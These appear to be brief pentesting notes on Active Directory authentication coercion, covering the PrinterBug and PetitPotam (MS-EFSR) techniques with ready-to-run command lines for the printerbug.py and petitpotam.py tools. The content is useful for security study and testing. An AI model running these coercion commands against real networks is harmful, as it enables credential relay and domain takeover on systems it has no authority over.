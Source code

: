 - PrinterBug - Induce authentication from any one machine on the network to any other
	- `python3 /opt/krbrelayx/printerbug.py domain.local/user:password@target <targetIP>`
- PetitPotam Authentication Coercion
	- Microsoft Encrypting File System Remote Protocol (MS-EFSR) allows AD server to remotely manage encrypted information using RPC
	- Can connect to a server unauthenticated and force it to open an "encrypted file" on your machine, thus forcing it to authenticate to you.
	- Exploitation:
		- `python /opt/PetitPotam/petitpotam.py <responder_IP> <target> -pipe all`